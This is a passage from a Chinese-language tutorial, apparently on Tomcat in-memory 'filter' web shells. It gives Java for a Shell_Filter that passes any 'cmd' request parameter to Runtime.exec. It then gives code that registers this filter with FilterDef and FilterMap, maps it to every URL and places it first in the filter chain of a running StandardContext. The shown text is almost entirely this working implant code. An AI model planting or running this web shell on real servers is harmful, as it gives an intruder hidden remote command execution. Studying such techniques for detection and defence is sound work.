 ```java
public class Shell_Filter implements Filter {
    
    public void doFilter(ServletRequest request, ServletResponse response, FilterChain chain) throws IOException, ServletException {
        String cmd=request.getParameter("cmd");
        try {
            Runtime.getRuntime().exec(cmd);
        } catch (IOException e) {
            e.printStackTrace();
        }catch (NullPointerException n){
            n.printStackTrace();
        }
    }
}
```

#### 4.2.3.3、使用`FilterDef`封装

```java
//filter名称
String name = "CommonFilter";
// 创建了一个新的 FilterDef 对象，用于定义过滤器的配置信息，包括过滤器的名称、类和实例等。
FilterDef filterDef = new FilterDef();
// 使用 setFilter() 方法设置过滤器的实例，参数 filter 应该是一个过滤器的实例。
filterDef.setFilter(filter);
// 使用 setFilterName() 方法设置过滤器的名称，参数 name 是之前定义的过滤器名称。
filterDef.setFilterName(name);
// 使用 setFilterClass() 方法设置过滤器的类名，这里通过 filter.getClass().getName() 获取过滤器实例的类名，通常是过滤器类的全限定名。
filterDef.setFilterClass(filter.getClass().getName());
// 最后，通过 addFilterDef() 方法将这个过滤器定义对象添加到指定的 StandardContext 对象中。这个方法用于在容器中注册一个过滤器定义，以便后续可以在部署描述符中配置过滤器映射。
standardContext.addFilterDef(filterDef);
```

#### 4.2.3.4、创建`FilterMap`

`filterMap`用于`filter`和路径的绑定

```java
// 创建了一个新的 FilterMap 对象，用于表示过滤器的映射信息。
// FilterMap 是用来配置过滤器与 URL 匹配模式、调度器类型等信息的类。
FilterMap filterMap = new FilterMap();
// 使用 addURLPattern() 方法向 FilterMap 中添加 URL 匹配模式，这里使用通配符 "/*" 表示匹配所有的 URL。
filterMap.addURLPattern("/*");
// 使用 setFilterName() 方法设置过滤器的名称，参数 name 应该是一个字符串，表示过滤器的名称。
filterMap.setFilterName(name);
// 使用 setDispatcher() 方法设置调度器类型，参数应该是一个字符串，表示调度器的类型。
// 在这里使用了 DispatcherType.REQUEST.name()，表示过滤器将会对请求（REQUEST）进行处理。
filterMap.setDispatcher(DispatcherType.REQUEST.name());
// 最后，通过 addFilterMapBefore() 方法将这个过滤器映射添加到指定的 StandardContext 对象中。
// 这个方法将过滤器映射添加到现有过滤器映射的前面，即在当前过滤器链的最前面添加这个过滤器映射。
standardContext.addFilterMapBefore(filterMap);
```
